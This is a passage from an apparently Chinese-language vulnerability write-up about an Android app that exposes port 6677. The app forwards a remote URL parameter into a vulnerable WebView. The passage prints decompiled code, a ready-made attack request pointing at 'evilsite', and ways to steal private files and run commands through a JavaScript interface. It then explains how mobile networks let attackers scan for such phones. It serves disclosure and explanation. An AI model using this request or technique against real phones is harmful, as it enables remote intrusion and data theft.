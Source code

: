 ```
Uri v0_2 = Uri.parse("androidamap://openFeature?featureName=OpenURL&sourceApplication=banner&urlType=0&contentType=autonavi&url="
                             + this.a.m.privilegeLink);
    Intent v1 = new Intent(MovieDetailHeaderView.c(this.a).getApplicationContext(), 
                            NewMapActivity.class);
    v1.setData(v0_2);
    v1.setFlags(268435456);
    MovieDetailHeaderView.c(this.a).startActivity(v1);

```

表明可以通过远程HTTP GET请求如下地址

```
http://ip:6677/androidamap?action=openFeature&featureName=OpenURL&sourceApplication=banner&urlType=0&contentType=autonavi&url=evilsite

```

操纵安装该app的手机继承WebView的Activity访问evilsite，而且这里存在WebView的漏洞，利用方式包括

(1). 窃取私有目录下的敏感文件：远程攻击者或者本地恶意app可以令WebView加载file://域的恶意脚本文件，按照恶意脚本的请求，窃取该应用私有目录下的敏感文件，突破android沙箱限制；

(2). WebView远程命令执行：存在可被网页中js操纵的接口jsinterface。由于该流行应用针对的SDK版本较低（`android:minSdkVersion="8"`），在Android 4.4.2以下的手机，均可使用该接口，通过js注入该应用进程执行命令。

0x03 漏洞利用场景
=====

对于Android app开放socket端口漏洞的远程利用场景，一般认为Android客户端都在内网，其利用主要还是在非安全的公共WiFi环境，通过对漏洞特征扫描即可利用。但在传统认为安全的移动互联网环境，笔者发现仍然可以扫描到其他开放端口的终端，因此也可以利用这种漏洞。

叙述之前，我们先对典型的移动通信网络架构进行简单的科普，一般教科书上的3G网络架构（WCDMA）如图。

![enter image description here](http://drops.javaweb.org/uploads/images/28888e3b0d5ab94e30e557f2a5d79315b9e9a441.jpg)

包括以下组成部分：

1.  UE: 用户终端设备，就是手机，为用户提供电路域和分组域内的各种业务功能。
    
2.  UTRAN: 陆地无线接入网，分为基站（Node B）和无线网络控制器（RNC）两部分。
    
3.  CN: 核心网络，负责与其他网络的连接和对UE 的通信和管理。主要功能实体包括：
    
    (1) MSC/VLR：提供CS(电路交换)域的呼叫控制、移动性管理、鉴权和加密等功能；
    
    (2) GMSC：网关移动交换中心，充当移动网和固定网之间的移动关口局，承担路由分析、网间接续、网间结算等重要功能；
    
    (3) SGSN：GPRS服务支持节点，提供PS（分组交换）域的路由转发、移动性管理、会话管理、鉴权和加密等功能；
    
    (4) GGSN：网关GPRS支持节点，提供数据包在WCDMA 移动网和外部数据网之间的路由和封装，GGSN就好象是可寻址WCDMA移动网络中所有用户IP 的路由器，需要同外部网络交换路由信息。
    
    (5) HLR：归属位置寄存器，提供用户的签约信息存放、新业务支持、增强的鉴权等功能。
    
4.  External Networks：外部网络，包括ISDN和PSTN等电路交换网络，以及Internet等分组交换网络。
    

简而言之，移动通信网络无非是大型的“局域网“，它们通过网关路由器（SGSN和GGSN）连上了Internet，进入到了互联网的世界。但是在某些移动通信网络的内部，不同的UE是可以互访的。以前面某应用开放6677端口为例，我们可以做一个简单的实验进行证明。
